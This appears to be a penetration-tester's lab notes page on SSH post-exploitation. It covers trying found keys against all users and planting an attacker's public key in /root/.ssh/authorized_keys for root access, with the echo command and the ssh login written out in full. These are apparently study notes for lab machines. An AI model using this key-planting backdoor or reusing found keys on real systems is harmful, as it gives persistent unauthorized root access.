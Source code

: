 
# Table of Contents

1. See general SSH [[2. Enumeration/TCP/22. SSH/1. Guide|Guide]] 
2. If you find a weak public key, see [[RSA Decrypt]]
# Access to a Key

If you find an SSH key, attempt to use that key to login to the related user and all possible users.
# Key Write Access

#securing-root 

Make new keys if you have root write access

1. Create new ssh keys using ssh-keygen on your machine
2. Copy the public key from `id_rsa.pub` and create a new file `authorized_keys` in `/root/.ssh/`
3. Get a SSH connection on your machine: `ssh -i id_rsa root@10.10.10.220`


```
$ cd /home/user
$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGEUzu7cGthWtPNXM5/rAvPBywgyh68AEpSyUBXm24kByXu+GhEmvAiVlkAhasBgTjiCbpup3dmzz54ADlo4T2jUWoVVEDOw82eKQ6EoqpYnHGVmpDmJ1n7+eCvb3ut0bl5VOnTkhYSWS8G9V6V+E/VmDun63HoHCHzvtBlbN/ZmhRKxdwNFSYN/NswU8MFK+MVXxa/FJUxrOJVAnefXQdfDBxIt4j/qqMr68u9lQfqOX5shmS0M55lFNAY2mR6INBQtT6AnAWremPCHdUHxU3eSvzUcItaamecSPTfDgMQDQkxXrrsKQLkJeCKZ/1EwDBXIF3RGCeNGq0hCYHSF8d root@kali" > .ssh/authorized_keys$
```

# Running Internally

It is possible to SSH internally if there is SSH running already on the victim, `ps aux` to privilege escalation